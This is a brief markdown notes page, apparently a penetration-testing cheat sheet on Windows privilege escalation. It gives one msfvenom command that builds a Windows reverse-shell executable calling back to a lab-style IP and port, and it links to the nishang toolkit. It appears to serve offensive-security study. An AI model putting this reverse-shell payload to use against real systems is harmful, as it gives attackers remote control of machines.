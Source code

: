 ```yaml
---
title: Windows Privesc
description: Windows privilege escalation.
---
```


# Windows Privesc

## Reverse shell

Using `msfvenom` :

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.52.128 LPORT=8888 -f exe -o revshell.exe
```

Using [nishang](https://github.com/samratashok/nishang).

